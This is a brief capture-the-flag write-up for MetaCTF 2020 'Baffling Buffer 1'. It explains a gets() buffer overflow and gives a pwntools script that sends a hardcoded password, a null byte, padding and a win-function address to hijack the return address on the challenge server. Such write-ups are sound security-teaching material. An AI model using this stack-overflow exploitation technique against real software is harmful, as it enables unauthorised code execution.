 Just like Baffling Buffer 0 the vulnurability is in **gets()**.

We have to give the right input which is "Sup3rs3cr3tC0de" and also execute a
buffer overflow, this is possible by passing a null byte right after our
input.

The gets() function shall read bytes from the standard input stream, stdin,
into the array pointed to by buf, until a <newline> is read or an end-of-file
condition is encountered.

After providing the right input, we need to overwrite the ret address for the
vuln function by the win function's address that is going to read and write
the flag.

Python script:  
```  
from pwn import *

host = "host1.metaproblems.com"  
port = 5151  
r = remote(host, port)

p = "Sup3rs3cr3tC0de"  
pad = 60-len(p)-5  
win = 0x401172

r.sendline(p+ "\x00" + pad*"A" + p64(win).decode()) # "\x72\x11\x40\x00"

print(r.recvall())  
```

*Check github url for binary, script and c code.*

Original writeup (https://github.com/infreezy/CTF-
Writeups/tree/main/2020/MetaCTF/baffling-buffer-1).